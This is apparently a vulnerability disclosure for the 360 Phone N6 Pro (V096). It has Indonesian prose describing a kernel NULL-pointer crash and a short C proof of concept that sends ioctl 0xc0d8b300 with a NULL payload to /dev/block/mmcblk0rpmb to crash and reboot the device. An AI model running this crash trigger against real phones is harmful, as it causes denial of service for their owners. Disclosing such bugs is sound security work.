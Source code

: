 <languages   />

Prinsip Kerentanan
------------------

Modul kernel dalam komponen kernel 360 Phone N6 Pro V096 memungkinkan penyerang menggunakan perintah 3235427072 untuk memasukkan argumen yang dirancang dengan cermat melalui argumen ioctl pada perangkat `/dev/block/mmcblk0rpmb` dan menyebabkan kernel untuk crash.

Dampak Kerentanan
-----------------

360 Phone N6 Pro 1801-A01

POC
---

    /*
    * This is poc of 360 N6 Pro, 1801-A01
    * Android Version: 7.1.1
    * Version Number: V096
    * Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64
    * A NULL pointer bug in the ioctl interface of device file /dev/block/mmcblk0rpmb causes the system crash via IOCTL 3235427072.
    * This Poc should run with permission to do ioctl on /dev/block/mmcblk0rpmb.
    */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/block/mmcblk0rpmb";
    static command = 3235427072; // 0xc0d8b300

    int main(int argc, char **argv, char **env) {
    int fd = 0;
    fd = open(driver, O_RDWR);
    if (fd < 0) {
    printf("Failed to open %s, with errno %dn", driver, errno);
    system("echo 1 > /data/local/tmp/log");
    return -1;
    }

    printf("Try ioctl device file '%s', with command 0x%x and payload NULLn", driver, command);
    printf("System will crash and reboot.n");
    if(ioctl(fd, command, NULL) < 0) {
    printf("Allocation of structs failed, %dn", errno);
    system("echo 2 > /data/local/tmp/log");
    return -1;
    }
    close(fd);
    return 0;